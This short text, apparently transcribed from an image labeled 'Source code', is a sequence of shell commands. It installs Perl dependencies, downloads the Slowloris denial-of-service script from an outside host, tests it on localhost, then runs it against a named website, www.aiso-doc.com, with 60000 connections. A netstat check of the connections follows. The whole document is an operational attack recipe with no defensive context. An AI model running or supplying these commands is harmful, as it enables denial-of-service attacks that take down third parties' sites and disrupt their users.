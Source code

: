 

yum -y install perl perl-IO-Socket-SSL perl-libwww-perl

wget http://ha.ckers.org/slowloris/slowloris.pl

perl slowloris.pl -dns 127.0.0.1 -port 80 -test

perl slowloris.pl -dns www.aiso-doc.com -port 80 -timeout 90 -num 60000

netstat -tcn | grep 192.168.88.52 | grep -v ':2245'
